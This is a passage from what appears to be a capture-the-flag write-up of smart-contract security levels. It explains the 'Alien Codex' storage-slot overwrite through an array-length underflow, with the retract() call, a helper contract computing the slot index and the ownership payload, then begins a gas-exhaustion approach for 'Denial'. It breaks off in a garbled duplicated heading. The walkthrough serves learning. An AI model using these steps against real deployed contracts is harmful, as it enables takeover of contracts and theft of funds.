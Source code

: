 We want to overlap and get to slot[0] to set it. We can calculate the index of that element by `2^256 - keccack(256)(1) +1`

-----
**Exploitation**

first we call the `retract` to set the array length to max.

```js
await contract.retract()
```

then we get our payload, here is a utils contract.

```js
contract Utils { 

    function getNumber() public pure returns (uint256){
      uint256 x =0;
        
        // return x-1 - uint256(keccak256(abi.encodePacked(uint256(1))))+1;
        
        return x - uint256(keccak256(abi.encodePacked(uint256(1))));
    }
}
```

We check if we got it right 😄

![Alien Codex - check](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138010/03ed7019523687b6195b1e2824212ccf9c27300ff053773c2f5b93ea5b79580d_boj4jy.png)  

no need to be puzzled we know what it is it's the contact value + 

![Alien Codex - Level address](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138013/9faab8cbd57b86461622fa7e3aad8dab64aed6c6d4a52a4ee19088857b840d21_pzx1am.png)  

So our payload should be 

```Js
0x00000000000000000000000184e7a3679A82C2766Ff8382862ab883FF9460307
0x000000000000000000000001YOUR_ADDRESS_HERE
```

Challenge solved ✅

## Denial

> There is a way to using `addr.call{value:x}("")`, only that it forwards all remaining gas and opens up the ability to perform more expensive actions ( and it returns a failure code instead of propagating the error )  ~ Solidity docs

That's all we need. So I lost quite bit of time looking for a way to reach the call stack depth limit ( which is 1024 ). But it was more the hard way of doing things.  What if we didn't leave the caller contract enough gas to transfer the 1% of the owner ? Yes that's really it !

-----
**-----
**Exploitation**ation**
